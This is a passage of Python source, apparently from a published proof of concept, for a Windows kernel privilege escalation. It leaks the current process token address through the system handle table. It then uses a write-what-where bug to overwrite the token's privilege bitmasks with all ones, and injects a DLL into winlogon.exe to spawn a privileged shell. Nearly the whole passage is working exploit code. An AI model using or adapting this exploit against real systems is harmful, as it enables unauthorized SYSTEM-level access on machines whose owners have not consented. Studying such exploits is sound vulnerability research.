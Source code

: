 ```python
    Leverage userland APIs to leak the current process' token address in kernel
    land.
    """
    hProc = HANDLE(kernel32.GetCurrentProcess())
    pid = kernel32.GetCurrentProcessId()
    print('[+] Current PID: ' + str(pid))

    h = HANDLE()

    res = OpenProcessToken(hProc, TOKEN_QUERY, byref(h))

    if res == 0:
        print('[-] Error getting token handle: ' + str(kernel32.GetLastError()))
    else:
        print('[+] Token Handle: ' + str(h.value))

    # Find the handles associated with the current process
    q = STATUS_INFO_LENGTH_MISMATCH
    out = DWORD(0)
    sz = 0
    while q == STATUS_INFO_LENGTH_MISMATCH:
        sz += 0x1000
        handle_info = (c_ubyte * sz)()
        q = ntdll.NtQuerySystemInformation(SystemExtendedHandleInformation, byref(handle_info), sz, byref(out))

    # Parse handle_info to retrieve handles for the current PID
    handles = find_handles(pid, handle_info)
    hToken = list(filter(lambda x: x[0] == pid and x[2] == h.value, handles))
    if len(hToken) != 1:
        print('[-] Could not find access token address!')
        return None
    else:
        pToken = hToken[0][1]
        print('[+] Found token at ' + hex(pToken))
    return pToken

def exploit():
    """
    Exploits the bug to escalate privileges.
    Reminder:
    0: kd> dt nt!_SEP_TOKEN_PRIVILEGES
       +0x000 Present          : Uint8B
       +0x008 Enabled          : Uint8B
       +0x010 EnabledByDefault : Uint8B
    """
    token = get_token_address()
    if token is None: sys.exit(-1)

    what = b'\xFF' * 8 * 3
    where = token + 0x40

    print('[+] Writing full privileges on address %x' % (where))

    write_what_where('127.0.0.1', what, where)

    print('[+] All done! Spawning a privileged shell.')
    print('[+] Check your privileges: !token %x' % (token))

    dll_path = pathlib.Path(__file__).parent.absolute().joinpath('spawn_cmd.dll')
    subprocess.call(['Injector.exe', '--process-name', 'winlogon.exe', '--inject', dll_path], stdout=open(os.devnull, 'wb'))

```